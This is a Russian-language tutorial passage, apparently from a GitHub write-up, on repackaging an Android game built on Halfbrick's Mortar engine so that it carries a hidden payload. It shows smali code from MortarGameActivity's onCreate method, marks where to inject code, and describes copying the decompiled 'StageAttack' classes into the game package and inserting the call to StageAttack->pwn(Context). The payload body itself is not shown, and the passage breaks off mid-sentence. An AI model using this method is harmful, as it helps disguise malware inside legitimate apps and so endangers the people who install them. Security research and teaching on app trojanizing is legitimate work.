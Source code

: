 Выяснили, что ```MortarGameLauncherActivity``` запускает ```MortarGameActivity``` и закрывается. Открываем ```MortarGameActivity```. Комментировать полностью его не будем. Нам интересно то, что происходит в методе ```Oncreate```, так как с него начинается создание активити. Сразу после него будем вставлять наш код. Важно не нарушить порядок line, при вставке.

```java
.method protected onCreate(Landroid/os/Bundle;)V
    .locals 9

    :try_start_0
    const-string v0, "android.os.AsyncTask"

    .line 465
    invoke-static {v0}, Ljava/lang/Class;->forName(Ljava/lang/String;)Ljava/lang/Class;
    :try_end_0
    .catch Ljava/lang/Throwable; {:try_start_0 .. :try_end_0} :catch_0

    .line 471
    :catch_0
    invoke-super {p0, p1}, Landroid/support/v4/app/FragmentActivity;->onCreate(Landroid/os/Bundle;)V
    
	  <--------------------------- //вставлять будем сюда, как строку 472
    
    .line 473
    invoke-static {}, Lcom/halfbrick/mortar/NativeGameLib;->TryLoadGameLibrary()Z

    .line 475
    invoke-virtual {p0}, Lcom/halfbrick/mortar/MortarGameActivity;->getIntent()Landroid/content/Intent;
    
    ...
```

Теперь нам нужен smali код payload'а. Собираем в apk наш сканер и декомпилируем. Переносим наши три декомпилированных класса, которые лежат по пути *smali\kz\c\signscan*, в папку *com/halfbrick/mortar*. Меняем *package name* всем классам, с *kz.c.signscan* на *com.halfbrick.mortar*. 

Было:

```java
.class public Lkz/c/signscan/StageAttack;
```

Стало:
```java
.class public Lcom/halfbrick/mortar/StageAttack;
```

В smali классе ```MainActivity``` берем строчку вызова payload'а:
```java
invoke-static {p0}, Lcom/halfbrick/mortar/StageAttack;->pwn(Landroid/content/Context;)V
```

И вставляем в ```MortarGameActivity```. В итоге метод ```onCreate()``` выглядит:
